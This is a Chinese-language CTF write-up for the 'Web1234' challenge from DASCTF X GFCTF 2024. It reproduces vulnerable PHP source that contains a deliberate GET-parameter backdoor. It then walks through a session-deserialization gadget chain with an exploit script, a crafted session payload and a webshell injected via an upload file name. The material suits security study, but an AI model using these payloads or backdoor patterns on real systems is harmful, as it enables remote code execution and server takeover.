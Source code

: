 ```yaml
---
title: Web1234
createTime: 2024/04/22 14:13:41
permalink: /article/nr3skugp/
---
```

# Web1234复现题解

## 源码

### class.php

```php
<?php

class Admin{

    public $Config;

    public function __construct($Config){
        //安全获取基本信息，返回修改配置的表单
        $Config->nickname = (is_string($Config->nickname) ? $Config->nickname : "");
        $Config->sex = (is_string($Config->sex) ? $Config->sex : "");
        $Config->mail = (is_string($Config->mail) ? $Config->mail : "");
        $Config->telnum = (is_string($Config->telnum) ? $Config->telnum : "");
        $this->Config = $Config;

        echo '    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="avatar" >
        <input type="text" name="nickname" placeholder="nickname"/>
        <input type="text" name="sex" placeholder="sex"/>
        <input type="text" name="mail" placeholder="mail"/>
        <input type="text" name="telnum" placeholder="telnum"/>
        <input type="submit" name="m" value="edit"/>
    </form>';
    }

    public function editconf($avatar, $nickname, $sex, $mail, $telnum){
        //编辑表单内容
        $Config = $this->Config;

        $Config->avatar = $this->upload($avatar);
        $Config->nickname = $nickname;
        $Config->sex = (preg_match("/男|女/", $sex, $matches) ? $matches[0] : "武装直升机");
        $Config->mail = (preg_match('/.*@.*\..*/', $mail) ? $mail : "");
        $Config->telnum = substr($telnum, 0, 11);
        $this->Config = $Config;

        file_put_contents("/tmp/Config", serialize($Config));

        if(filesize("record.php") > 0){
            [new Log($Config),"log"]();
        }
    }

    public function resetconf(){
        //返回出厂设置
        file_put_contents("/tmp/Config", base64_decode('Tzo2OiJDb25maWciOjc6e3M6NToidW5hbWUiO3M6NToiYWRtaW4iO3M6NjoicGFzc3dkIjtzOjMyOiI1MGI5NzQ4Mjg5OTEwNDM2YmZkZDM0YmRhN2IxYzlkOSI7czo2OiJhdmF0YXIiO3M6MTA6Ii90bXAvMS5wbmciO3M6ODoibmlja25hbWUiO3M6MTU6IuWwj+eGiui9r+ezlk92TyI7czozOiJzZXgiO3M6Mzoi5aWzIjtzOjQ6Im1haWwiO3M6MTU6ImFkbWluQGFkbWluLmNvbSI7czo2OiJ0ZWxudW0iO3M6MTE6IjEyMzQ1Njc4OTAxIjt9'));
    }

    public function upload($avatar){
        $path = "/tmp/".preg_replace("/\.\./", "", $avatar['fname']);
        file_put_contents($path,$avatar['fdata']);
        return $path;
    }

    public function __wakeup(){
        $this->Config = ":(";
    }

    public function __destruct(){
        echo $this->Config->showconf();
    }
}



class Config{

    public $uname;
    public $passwd;
    public $avatar;
    public $nickname;
    public $sex;
    public $mail;
    public $telnum;

    public function __sleep(){
        echo "<script>alert('edit conf success\\n";
        echo preg_replace('/<br>/','\n',$this->showconf());
        echo "')</script>";
        return array("uname","passwd","avatar","nickname","sex","mail","telnum");
    }

    public function showconf(){
        $show = "<img src=\"data:image/png;base64,".base64_encode(file_get_contents($this->avatar))."\"/><br>";
        $show .= "nickname: $this->nickname<br>";
        $show .= "sex: $this->sex<br>";
        $show .= "mail: $this->mail<br>";
        $show .= "telnum: $this->telnum<br>";
        return $show;
    }

    public function __wakeup(){
        if(is_string($_GET['backdoor'])){
            $func = $_GET['backdoor'];
            $func();//:)
        }
    }

}



class Log{

    public $data;

    public function __construct($Config){
        $this->data = PHP_EOL.'$_'.time().' = \''."Edit: avatar->$Config->avatar, nickname->$Config->nickname, sex->$Config->sex, mail->$Config->mail, telnum->$Config->telnum".'\';'.PHP_EOL;
    }

    public function __toString(){
        if($this->data === "log_start()"){
            file_put_contents("record.php","<?php\nerror_reporting(0);\n");
        }
        return ":O";
    }

    public function log(){
        file_put_contents('record.php', $this->data, FILE_APPEND);
    }
}
```

### index.php

```php
<?php
error_reporting(0);
include "class.php";

$Config = unserialize(file_get_contents("/tmp/Config"));

foreach($_POST as $key=>$value){
    if(!is_array($value)){
        $param[$key] = addslashes($value);
    }
}

if($_GET['uname'] === $Config->uname && md5(md5($_GET['passwd'])) === $Config->passwd){
    $Admin = new Admin($Config);
    if($_POST['m'] === 'edit'){
        
        $avatar['fname'] = $_FILES['avatar']['name'];
        $avatar['fdata'] = file_get_contents($_FILES['avatar']['tmp_name']);
        $nickname = $param['nickname'];
        $sex = $param['sex'];
        $mail = $param['mail'];
        $telnum = $param['telnum'];

        $Admin->editconf($avatar, $nickname, $sex, $mail, $telnum);
    }elseif($_POST['m'] === 'reset') {
        $Admin->resetconf();
    }
}else{
    die("pls login! :)");
}
```

### 分析&题解

在config里找到一串密码：

```
O:6:"Config":7:{s:5:"uname";s:5:"admin";s:6:"passwd";s:32:"50b9748289910436bfdd34bda7b1c9d9";s:6:"avatar";s:10:"/tmp/1.png";s:8:"nickname";s:15:"小熊软糖OvO";s:3:"sex";s:3:"女";s:4:"mail";s:15:"admin@admin.com";s:6:"telnum";s:11:"12345678901";}
```

![](https://ec3o.oss-cn-hangzhou.aliyuncs.com/img/20240422103256.png)

使用`?uname=admin&passwd=1q2w3e`登录

![](https://ec3o.oss-cn-hangzhou.aliyuncs.com/img/20240422103540.png)hint:`session_start（），注意链子挖掘`

#### 思路

通过`session_start`启动`session`反序列化

以PHP为例，理解`session`的原理

1. PHP脚本使用 session_start()时开启`session`会话，会自动检测`PHPSESSID`
   - 如果`Cookie`中存在，获取`PHPSESSID`
   - 如果`Cookie`中不存在，创建一个`PHPSESSID`，并通过响应头以`Cookie`形式保存到浏览器
2. 初始化超全局变量`$_SESSION`为一个空数组
3. PHP通过`PHPSESSID`去指定位置（`PHPSESSID`文件存储位置）匹配对应的文件
   - 存在该文件：读取文件内容（通过反序列化方式），将数据存储到`$_SESSION`中
   - 不存在该文件： session_start()创建一个`PHPSESSID`命名文件
4. 程序执行结束，将`$_SESSION`中保存的所有数据序列化存储到`PHPSESSID`对应的文件中

### 反序列化链路挖掘

```php
Config#__sleep -> Config.showconf() -> Log#__toString 
```

#### exp.php

```php
<?php
class Admin{
 public $Config;
}
class Config{
 public $uname;
 public $passwd;
 public $avatar;
 public $nickname;
 public $sex;
 public $mail;
 public $telnum;
}
class Log{
 public $data;
}
$exp=new Config();
$sink=new Log();
$sink->data="log_start()";
$exp->avatar=$sink;
echo serialize($exp);
```

`sess_Ec3o`文件内容

```php
aaa|O:6:"Config":7:{s:5:"uname";N;s:6:"passwd";N;s:6:"avatar";O:3:"Log":1:{s:4:"data";s:11:"log_start()";}s:8:"nickname";N;s:3:"sex";N;s:4:"mail";N;s:6:"telnum";N;}
```

在⽂件名处写马，⽂件名为 1';eval($_POST[1]);# 即可

注意删去Cookie，防止再次写入 <?php error_reporting(0);

复现参考题解|[【Web】DASCTF X GFCTF 2024｜四月开启第一局 题解(全)-CSDN博客](https://blog.csdn.net/uuzeray/article/details/138003846)